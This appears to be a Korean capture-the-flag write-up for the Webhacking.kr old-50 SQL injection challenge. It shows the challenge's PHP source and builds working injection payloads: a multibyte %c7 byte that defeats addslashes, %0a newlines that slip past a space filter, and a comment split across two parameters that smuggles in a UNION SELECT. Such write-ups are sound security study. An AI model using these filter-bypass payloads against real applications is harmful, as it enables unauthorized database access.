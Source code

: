 ```yaml
---
title: ["[Webhacking.kr] old-50 (sqli - 45)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```


```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
```

이번 문제는 old-45와 유사해보인다.  

```sql
select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')
```  
마찬가지로, `id`에 인젝션을 해야된다.  

```sql
select lv from chall50 where id='0' or lv=3 #' and pw=md5('123')
```
이렇게 동작시키면 되겠다.  

`'`에 대한 `addslashes()`함수의 동작은 old-45의 방법을 사용하면 되고,  

`(`, ` ` 이 사용이 안되므로 `%0a`를 사용해서 공백 필터를 우회할 수 있다.  

```
?id=1%c7'or%0alv%0alike%0a1%23&pw=123
```
해당 쿼리는 `level : 1`을 응답하는데,  

```
?id=1%c7'or%0alv%0alike%0a3%23&pw=123
```
lv=3인 쿼리는 `Wrong` 응답이 온다.

DB에 `lv=3`인 데이터가 없다는 뜻이다.  
데이터가 없을 때는 `union`으로 값을 넣어야되는데,  
`id`에는 `union`이 필터링되어 있다.  

즉, 인젝션 포인트가 `id`가 아니라 `pw`이다.  

`md5()`함수가 동작하지 않도록 하려면, `id`에서부터 쭉 주석처리를 하면 된다.  

```sql
select lv from chall50 where id='0'/*' and pw=md5('*/union select 3#')
```

```
?id=1%c7'%2f%2a&pw=%2a%2funion%0aselect%0a3%23
```